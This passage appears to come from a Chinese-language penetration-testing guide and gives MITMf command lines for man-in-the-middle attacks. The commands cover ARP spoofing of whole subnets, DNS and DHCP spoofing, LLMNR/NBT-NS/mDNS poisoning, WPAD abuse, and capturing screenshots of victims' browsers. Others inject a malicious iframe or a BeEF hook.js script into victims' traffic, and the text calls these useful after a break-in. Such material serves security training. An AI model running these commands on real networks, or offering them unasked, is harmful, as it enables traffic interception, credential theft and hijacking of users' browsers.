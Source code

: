 +   `--hsts`：加载 sslstrip 插件

+   `--dns`：加载代理以修改 DNS 查询

+   `--gateway`：指定网关

+   `--target`：指定目标

+   你可以在网关（`10.10.10.1`）和整个子网之间执行 ARP 欺骗攻击：

```
python mitmf.py -i eth0 --spoof --arp --gateway 10.10.10.1
```

+   你可以在受害者和网关（`10.10.10.1`）之间执行 ARP 欺骗：

```
python mitmf.py -i eth0 --spoof --arp --target 10.10.10.10-10.10.10.50 --gateway 10.10.10.1
```

+   你可以在对子网和网关（`10.10.10.1`）执行 ARP 欺骗攻击时执行 DNS 欺骗：

```
python mitmf.py -i eth0 --spoof --dns --arp --target 10.10.10.0/24 --gateway 10.10.10.1
```

+   你可以使用 MITMf 执行 LLMNR/NBTNS/MDNS 欺骗：

```
python mitmf.py -i eth0 --responder --wredir --nbtns
```

+   你可以执行 DHCP 欺骗攻击：

```
python mitmf.py -i eth0 --spoof --dhcp
```

这种攻击在后渗透阶段非常有用。

IP 寻址方案和子网信息取自配置文件。

+   可以使用 MITMf 注入 HTML iframe：

```
python mitmf.py -i eth0 --inject --html-url <malicious web URL>
```

+   可以注入 JavaScript 脚本：

```
python mitmf.py -i eth0 --inject --js-url http://beef:3000/hook.js
```

你可以使用`responder`模块将 ARP 欺骗作为恶意代理服务器执行 WPAD 协议的 ARP 欺骗：

```
python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --responder --wpad
```

以下是可以整合的其他参数列表：

+   **屏幕捕获**：这允许 MITMf 使用 HTML5 画布准确地获取客户端的 Web 浏览器图像，使用`--screen`命令。此外，你可以使用`--interval seconds`命令以时间间隔捕获屏幕截图。
